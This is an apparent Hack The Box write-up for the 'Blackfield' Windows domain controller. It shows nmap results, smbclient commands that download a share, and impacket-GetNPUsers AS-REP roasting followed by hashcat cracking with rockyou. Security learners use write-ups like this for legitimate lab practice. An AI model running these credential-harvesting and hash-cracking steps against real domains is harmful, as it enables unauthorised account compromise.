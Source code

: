 # Blackfield

## NMAP

``` text
10.129.229.17:53
10.129.229.17:88
10.129.229.17:139
10.129.229.17:135
10.129.229.17:389
10.129.229.17:389
10.129.229.17:445
10.129.229.17:445
10.129.229.17:593
10.129.229.17:3268
10.129.229.17:5985

PORT STATE SERVICE REASON VERSION

53/tcp open domain syn-ack ttl 127 Simple DNS Plus
88/tcp open kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-10-09 16:52:08Z)
135/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC
139/tcp filtered netbios-ssn no-response
389/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds? syn-ack ttl 127
593/tcp open ncacn_http syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp filtered ldapssl no-response
3268/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
3269/tcp filtered globalcatLDAPssl no-response
5985/tcp open http syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp filtered adws no-response
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB

![smb-shares](/HTB/Machines/images/Blackfield-smb-shares.png)

we can get usernames via profles$ share and use it with ASREP Roasting

``` bash
mask ""
recurse ON
prompt OFF
cd 'path\to\remote\dir'
lcd '~/path/to/download/to/'
mget *
```

```bash
impacket-GetNPUsers BLACKFIELD.local/ -usersfile user.txt -format hashcat -outputfile hashes.asreproast

hashcat -m 18200 --force -a 0 hashes.asreproast /user/share/worldists/rockyou.txt
```
![GetNPUsers](/HTB/Machines/images/Blackfield-GetNPUsers.png)